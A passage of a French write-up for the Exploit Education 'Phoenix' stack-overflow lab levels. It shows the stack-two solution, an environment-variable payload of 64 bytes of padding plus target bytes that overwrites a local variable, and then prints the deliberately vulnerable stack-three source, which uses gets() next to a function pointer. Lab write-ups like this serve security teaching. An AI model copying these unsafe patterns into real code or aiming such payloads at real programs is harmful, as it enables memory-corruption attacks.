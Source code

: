 ```c
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

- Même idée que stack-one, on a juste à exporter la variable d'environnement `ExploitEducation` avec la chaine de caractères nécessaire.

```sh
user@phoenix-amd64:~$ export ExploitEducation=$( python -c 'print("E"*64+"\x0a\x09\x0a\x0d")')  
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-two 
```

```
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack-Three

- Le code:
  
```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```
